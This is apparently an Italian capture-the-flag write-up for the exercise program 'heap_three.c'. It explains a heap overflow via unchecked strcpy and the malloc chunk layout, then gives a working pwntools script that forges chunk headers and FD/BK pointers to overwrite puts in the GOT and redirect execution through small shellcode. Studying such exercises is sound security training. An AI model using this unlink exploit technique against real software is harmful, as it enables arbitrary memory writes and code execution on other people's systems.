 ### Descrizione del Codice

Il programma `heap_three.c` esplora l'importanza di inizializzare esplicitamente la memoria allocata e cosa può accadere quando i valori dei puntatori diventano obsoleti.

### Funzionamento del Programma

1. Il programma alloca tre blocchi di memoria di 32 byte ciascuno.
2. Copia gli argomenti della riga di comando nei blocchi di memoria allocati.
3. Libera i blocchi di memoria allocati.
4. Stampa un messaggio di errore.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `strcpy` senza controllare la dimensione, il che può causare un overflow del buffer. Questo può essere sfruttato per manipolare la gestione della memoria heap.

### Struttura dei Blocchi di Memoria

Ogni blocco di memoria heap ha la seguente struttura:
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+ <-- Inizio del blocco | PREV_SIZE (se P = 0) | +-----------------+-+-+-+-+-+ | CHUNK SIZE |A|M|P| +-----------------+-+-+-+-+-+ <-- Puntatore restituito da malloc | USER DATA | +---------------------------+ <-- Fine del blocco

Un blocco allocato consiste di tre parti: due intestazioni di 8 byte o 4 byte su sistemi a 64 bit/32 bit rispettivamente, e i dati dell'utente.

### Exploit

L'exploit sfrutta la vulnerabilità di overflow del buffer per manipolare i puntatori `FD` e `BK` dei blocchi di memoria liberati, consentendo di scrivere in memoria arbitraria.

### Esempio di Exploit

Il seguente script Python genera l'input necessario per sfruttare la vulnerabilità:

```python
# solve.py

from pwn import *

puts_addr = 0x804c13c
shellcode_addr = 0xf7e6900c

'''
  push 0x80487d5      # winner_address
  ret
'''
shellcode = '\x68\xd5\x87\x04\x08\xc3'

buff = ""

# primo blocco
buff += 'AAAA'            # Questo sarà sovrascritto con FD quando free(a)
buff += shellcode
buff += ' '

# secondo blocco
buff += 'B'*32            # Riempie il secondo blocco
buff += p32(0xfffffffc)   # prevsize del terzo blocco = -4 per saltare all'interno di se stesso durante la consolidazione all'indietro
buff += p32(0xffffffb0)   # size del terzo blocco = -80 per saltare al primo blocco durante la consolidazione in avanti
buff += ' '

# terzo blocco
buff += 'AAAA'            # junk
buff += p32(puts_addr-12) # sarà p->fd
buff += p32(shellcode_addr) # sarà p->bk

print(buff)